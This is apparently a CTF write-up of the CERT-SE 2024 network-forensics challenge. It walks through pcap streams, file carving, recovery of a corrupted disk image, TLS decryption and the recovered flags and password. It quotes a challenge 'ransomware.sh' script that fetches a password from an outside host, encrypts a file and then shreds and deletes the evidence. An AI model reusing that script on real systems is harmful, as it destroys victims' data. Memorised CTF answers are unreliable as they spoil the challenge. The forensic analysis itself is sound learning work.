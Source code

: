 #CTF
### Original file: CERT-SE_CTF2024.pcap

Identified ip/mac addresses on file:
An4lys3r/Employee 1: 	IP: 10.0.0.10 MAC: 52:54:00:16:f6:1f
D3f3nd3r/Employee 2: 	IP: 10.0.0.20 MAC: 52:54:00:11:19:a7
??: 			IP: 10.0.0.30 MAC: 52:54:00:52:dc:1f
Server?:		IP: 10.0.0.50 MAC: 52:54:00:6f:d7:65

Suspicious ip address: 195.200.72.82
FTP packets to presumed server shows the credentials to this server.
User: anonymous 
Pass: NcFTP@


#### Stream 0:

stream 0 and 1 are the same but 10.0.0.10 is involved in stream 1 and .20 in stream 0. .30 is involved in both.

Holds a conversation from employees discovering they have been hacked. Same on stream 1, only from the other employees perspective.
From beginning of stream output of system
:irc.ctf.alt 005 D3f3nd3r CHANNELLEN=50 NICKLEN=9 TOPICLEN=490 AWAYLEN=127 KICKLEN=400 MODES=5 MAXLIST=beI:50 EXCEPTS=e INVEX=I PENALTY FNC :are supported on this server
:irc.ctf.alt 251 D3f3nd3r :There are 1 users and 0 services on 1 servers
:irc.ctf.alt 253 D3f3nd3r 1 :unknown connection(s)
:irc.ctf.alt 254 D3f3nd3r 1 :channels formed
:irc.ctf.alt 255 D3f3nd3r :I have 1 users, 0 services and 0 servers
:irc.ctf.alt 265 D3f3nd3r 1 2 :Current local users: 1, Max: 2
:irc.ctf.alt 266 D3f3nd3r 1 2 :Current global users: 1, Max: 2
:irc.ctf.alt 250 D3f3nd3r :Highest connection count: 2 (4 connections received)
:irc.ctf.alt 375 D3f3nd3r :- irc.ctf.alt message of the day
:irc.ctf.alt 372 D3f3nd3r :- "Hello world!"
:irc.ctf.alt 376 D3f3nd3r :End of MOTD command

Found first flag on packet 1742.
Second on packet 4.

packet 147 the person in the datacenter sends over ransom note. /home/user/emergency_net/DCC/RANSOM_NOTE.gz
SHA-256 checksum to go along: 7113f236b43d1672d881c6993a8a582691ed4beb4c7d49befbceb1fddfb14909

Someone posted a wordlist scraped from their public website, and ranting about recording web traffic from workstation CTF-PC01.

IP they found suspicious. Involved in [[Attacks on networks#C2 or C&C |C2]] and exfiltration activities. 195.200.72.82

#### Stream 2:
ransom
#### Stream 3:
corp_net1.pcap file sent to .20

#### Stream 4:
Packet 391 seems to have something to do with programming c++ buffer error and an error from a python library.
Packet 394 is very strange. Maybe has something to do with c++?
Packet 384/977 has something about a puzzle.exe
Packet 981 has some more whatyoulookingat.com and also polisen.se
Encrypted data but at the bottom is alot of "whatyoulookingat.com".
Also packet 1030 has alot of windows directory from recycle bin. and also whatyoulookingat.com, cloudflare.net and sapo.se.cdn.
They seem to have extracted Recycle-Bin.zip here also.

Extracted corp_net1.pcap here.

#### Stream 5:

corp_net2.pcap file sent to .20

#### Stream 6:

Looking at stream 3 where a request was made to get corp_net2.pcap, packet that said "ok to send data" was nr. 1128se and first packet of stream 6 was 1132 I figured this was probably
that .pcap file so i saved it as raw data with file extention .pcap, I was correct.

#### Stream 7:

disk1.img.gz file is sent to .20

#### Stream 8:

extracted file disk1.img.gz. Altough it cannot be decompressed with winrar.

#### Stream 10:

Seems to be the wordlist. 
Extracted file.

Extracted file: corp_net2.pcap

Extracted file: disk1.img.gz

## File disk1.img.gz

It was corrupted, but using [[Pen testing tools#Gzrecover|gzrecover]] and then [[Pen testing tools#TestDisk|testDisk]] I was able to extract 4 files.
1. secret
2. secret.encrypted
3. sslkeylogfile
4. ransomware.sh
After inspecting the files I found that sslkeylogfile contained some ssl keys for TLS 1.3.
Ransomware.sh contained a shell script that encrypted secret using -aes-128-cbc cipher with [[Pen testing tools#Openssl|openssl]], outputting the secret.encrypt file and then shredded the secret file with 'shred' command before removing it and the sslkeylogfile.
### ransomware.sh
`#!/bin/bash 
`password=$(SSLKEYLOGFILE=sslkeylogfile curl --insecure https://whatyoulookingat.com/1.txt)
`openssl enc -aes-128-cbc -pass pass:$password -in secret -out secret.encrypted
`shred secret
`rm secret
`rm sslkeylogfile
`rm $0

The secret file is probably a lost cause, I will instead focus on cracking the secret.encrypt file since I know aes128 was used and the sslkeylogfile previously extracted is probably going to help me decrypt the traffic where the password was obtained from whatyoulookingat.com.

## ransomNote.gz

After neglecting this file I ran gzrecover on it and got a ASCII text file. But the file was corrupted. The checksum is wrong, the original conversation the had the checksum provided: 7113f236b43d1672d881c6993a8a582691ed4beb4c7d49befbceb1fddfb14909.

## corp_net1.pcap
### secret.encrypted

Here I found the password for the secret.encrypted file. Since I knew from the ransomware.sh script that the password was obtained from `whatyoulookingat.com/1.txt`, I searched for this as a regular expression in packet details. This led me to tcp stream 53 in this file. And packet 1920 had a payload of 17 bytes which had the password. 

	Password: pheiph0Xeiz8OhNa

Now I could decrypt the file. 
```
openssl enc -d -aes-128-cbc -in secret.encrypted -out secret.txt -pass pass:pheiph0Xeiz8OhNa
```
And in secret.txt was CTF\[OPPORTUNISTICALLY]

### puzzle.exe

After tls decryption of this file I found on stream 59 that puzzle.exe was extracted. This is most likely the file transmitted on stream 60.
This was correct, it is a puzzle.
Solved the puzzle, gave nothing, must be something more about it though.

#### Reverse engineer
#SRE 
Running `file puzzle.exe` in [[SRE Tools#Git bash|gitbash]] tells that it is a `PE32+ excecutable (GUI) x86-64, for MS Windows, 6 sections.`

Decompiling with [[SRE Tools#IDA|IDA]]

### recycle-bin.zip

Stream 63 mentions transferring file Recycle-bin.zip. Extracted on stream 64.
The files seem to only reference where they where on the original computer. 
But there was an HFS HTTP file server .exe under the name $RL7SXXI.exe here where I could add the files and view them in the browser.

Alot of interesting files here. Might have to use IDA to see what $ID8WDX0.exe and $IL7SXXI.exe does because windows wont let me run it.

$RCXHUFJ.zip has NewFileTime.exe.

$RZ8ZSGB.zip holds file "Biografi" with 69 .txt files, each of 1kb size. All files is just one word of "Lorem ipsum" in order it seems.

$IZ8ZSGB.zip, $ICXHUFJ.zip, $IWOD8TX.zip is damaged, using gzrecover got me nowhere. They all have 0x00 0x02 as magic number in beginning of file.
### archive

Stream 66 mentions transferring file archive. Extracted on 67.

## corp_net2.pcap
### unauthorized html

Stream 57 had an html file where something was unauthorized.
### FLAGS:

CTF\[E65D46AD10F92508F500944B53168930]
CTF\[AES128]
CTF\[OPPORTUNISTICALLY]